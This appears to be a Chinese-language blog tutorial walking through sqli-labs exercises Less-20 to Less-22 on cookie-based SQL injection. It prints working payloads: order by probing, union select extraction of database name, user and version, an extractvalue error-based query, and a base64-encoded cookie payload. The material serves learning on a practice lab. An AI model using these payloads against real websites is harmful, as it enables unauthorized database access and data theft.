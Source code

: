 ```yaml
---
layout: post
title: "「SQL注入入门篇」SQL注入（十一）"
subtitle:   "为什么我是web安全菜鸡啊！！！"
date: 2016-11-12 12:00:00
author:     "许大仙"
tags:
    - web安全
---
```


<h2>Less-20</h2>
基于cookie的注入

<h3>概述</h3>
打开后发现是一个登录界面，在登录之后会保存下cookie，当cookie保存时，刷新页面直接能登陆进来，我们可以获取用户名，密码，ID等信息。

<img src="http://oc42vgpoj.bkt.clouddn.com/less20_right.png" />

所谓基于cookie的注入就是通过修改cookie的值，等刷新页面的时候，网站会带入cookie的值进行查找，以此来实现注入

要修改cookie的值，可以祭出神器Firebug

<h3>测试</h3>
&nbsp;

在把cookie的值改为 uname=admin' 的时候报错，存在注入。我们可以猜出闭合的方式，构造语句，方式和简单的Get注入类似

<img src="http://oc42vgpoj.bkt.clouddn.com/less20_test.png" />

<strong>注意这里修改的时候要更改下cookie过期的时间，否则会被删除</strong>

<h3>Payload</h3>
<pre class="lang:tsql decode:true">admin' order by 1,2,3,4 #
admin' order by 1,2,3 #</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less20_payload2.png" />

<pre class="lang:tsql decode:true">' union select 1,2,3 #</pre>
<img src="http://oc42vgpoj.bkt.clouddn.com/less20_payload1.png" />

<pre class="lang:tsql decode:true">' union select database(),user(),version() #</pre>
<img src="http://oc42vgpoj.bkt.clouddn.com/less20_payload3.png" />

<pre class="lang:tsql decode:true">admin' and extractvalue(1,concat(0x7e,(select database()),0x7e)) #</pre>
<h2>Less-21</h2>
同理，不过这次cookie进行了base64加密

<pre class="lang:tsql decode:true" title="Payload">JykgdW5pb24gc2VsZWN0IGRhdGFiYXNlKCksdXNlcigpLHZlcnNpb24oKSAjIA==

// ') union select database(),user(),version() #</pre>

<h2>Less-22</h2>
同理，单引号变双引号

&nbsp;